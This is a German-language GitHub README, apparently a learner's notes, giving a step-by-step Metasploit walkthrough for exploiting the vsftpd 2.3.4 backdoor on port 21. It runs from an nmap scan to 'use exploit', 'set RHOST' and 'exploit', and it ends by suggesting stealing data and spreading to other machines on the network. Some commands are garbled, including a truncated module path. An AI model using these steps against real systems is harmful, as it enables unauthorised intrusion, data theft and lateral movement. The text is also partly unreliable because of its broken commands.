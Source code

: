 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt.

sudo nmap -p- -sV -O <IP-Adresse des Ziels>
  
# Port 21:

service postgresql start
 service postgresql status 
  
Danach wird ein passwort verlangt
![image](https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png)
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
![image](https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png)

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
  ![image](https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png)
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST <IP-Adresse des Ziels>
  
 Nohal kontrolieren mit: show options
  
 danah kann an einfah den Comand "exploit" absetzen
  ![image](https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png)
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

